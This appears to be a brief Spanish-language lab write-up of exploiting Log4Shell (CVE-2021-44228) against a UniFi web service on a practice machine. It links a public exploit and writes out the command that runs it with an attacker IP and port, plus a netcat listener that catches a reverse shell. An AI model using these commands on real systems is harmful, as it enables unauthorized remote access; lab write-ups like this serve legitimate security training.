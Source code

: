 #CVE-2021-44228

-------

Cuando entramos al puerto 8080 que dice que es un http, nos redirigue a esta pagina
![[Unified4.png]]

[Link del CVE](https://github.com/puzzlepeaches/Log4jUnifi), Hicimos la instalacion que esta en el github
Ejecutamos el exploit ``python3 exploit.py -u https://10.129.228.2:8443 -i 10.10.16.17 -p 443`` estando en escucha con [[nc -nlvp 443]]

![[Unified5.png]]

![[Unified6.png]]

